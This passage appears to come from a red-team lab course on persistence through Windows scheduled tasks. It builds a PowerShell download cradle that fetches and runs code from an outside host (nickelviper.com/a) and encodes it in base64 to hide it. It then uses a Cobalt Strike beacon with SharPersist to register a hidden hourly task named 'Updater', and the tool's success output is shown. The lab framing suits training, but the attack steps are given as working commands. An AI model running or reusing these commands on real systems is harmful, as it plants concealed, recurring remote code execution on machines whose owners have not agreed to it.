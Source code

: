 The Windows Task Scheduler allows us to create "tasks" that execute on a pre-determined trigger. That trigger could be a time of day, on user-logon, when the computer goes idle, when the computer is locked, or a combination thereof.

Let's create a scheduled task that will execute a PowerShell payload once every hour.  To save ourselves from having to deal with lots of quotations in the IEX cradle, we can encode it to base64 and execute it using the `-EncodedCommand` parameter in PowerShell (often appreciated to `-enc`).  This is a little complicated to do, because it must use Unicode encoding (rather than UTF8 or ASCII).

In PowerShell:
```powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
```
  

In Linux:
```bash
ubuntu@DESKTOP-3BSK7NO ~> set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
ubuntu@DESKTOP-3BSK7NO ~> echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
```
  
```bash
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly
[+] SUCCESS: Scheduled task added
```

Where:

- `-t` is the desired persistence technique.
- `-c` is the command to execute.
- `-a` are any arguments for that command.
- `-n` is the name of the task.
- `-m` is to add the task (you can also `remove`, `check` and `list`).
- `-o` is the task frequency.

On the console of Workstation 2, open the Task Scheduler and select _Task Scheduler Library_ in the left-hand menu.  You should see your task appear in the main window.  You may of course wait for one hour, or simply highlight the task and click _Run_ in the right-hand _Actions_ menu.  This should spawn another Beacon.